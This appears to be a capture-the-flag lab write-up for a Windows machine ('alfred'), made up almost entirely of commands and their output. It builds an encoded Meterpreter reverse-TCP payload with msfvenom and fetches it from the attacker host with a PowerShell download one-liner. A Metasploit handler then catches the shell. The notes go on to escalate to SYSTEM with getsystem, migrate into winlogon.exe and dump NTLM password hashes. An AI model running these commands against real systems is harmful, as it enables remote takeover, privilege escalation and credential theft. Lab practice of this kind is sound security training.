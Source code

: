 PS C:\Users\bruce\Desktop> type user.txt   
79007a09481963edf2e1321abd9ae2a0


## cmd to meterpreter

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.28.128 LPORT=9002 -f exe -o meter.exe

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.28.128/meter.exe','meter.exe')"


use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.28.128
set LPORT 9002
run

Start-Process "meter.exe"

```sh
[*] Started reverse TCP handler on 10.9.28.128:9002 
[*] Sending stage (180291 bytes) to 10.10.232.32
[*] Meterpreter session 1 opened (10.9.28.128:9002 -> 10.10.232.32:49205) at 2020-05-03 12:04:49 -0400

meterpreter > 
meterpreter > getuid
Server username: alfred\bruce
```

-a---          5/3/2020   9:02 AM      73802 meter.exe  


meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > migrate -N winlogon.exe
[*] Migrating from 2284 to 608...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
bruce:1000:aad3b435b51404eeaad3b435b51404ee:3ea0013c7eb26d63606673c34322b4ae:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
meterpreter > 





```ps1
PS C:\Users\bruce> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
```